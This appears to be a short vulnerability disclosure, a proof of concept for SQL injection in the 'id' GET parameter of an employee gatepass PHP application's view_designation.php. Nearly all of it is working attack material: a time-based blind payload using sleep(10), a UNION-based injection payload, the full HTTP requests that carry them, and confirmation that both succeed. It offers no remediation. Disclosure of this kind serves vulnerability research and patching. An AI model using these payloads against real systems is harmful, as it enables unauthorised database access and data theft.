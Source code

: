 BUG_Author: ZongXinLi

Vulnerability File: /employee_gatepass/admin/maintenance/view_designation.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 2 from (select(sleep(10)))x) and 'x'='x

```
GET /employee_gatepass/admin/maintenance/view_designation.php?id=1%27%20and%20(select%202%20from%20(select(sleep(10)))x)%20and%20%27x%27=%27x HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=m9am97ggdd683nbbhr07jedt25
Connection: close
```

The server's response time is 10 seconds

![image](./sql1.png)

Payload2:id=-1' union all select null,concat(0x35363738,0x65666768),null,null,null,null-- -

```
GET /employee_gatepass/admin/maintenance/view_designation.php?id=-1%27%20union%20all%20select%20null,concat(0x35363738,0x65666768),null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=m9am97ggdd683nbbhr07jedt25
Connection: close
```

union query success

![image](./sql2.png)
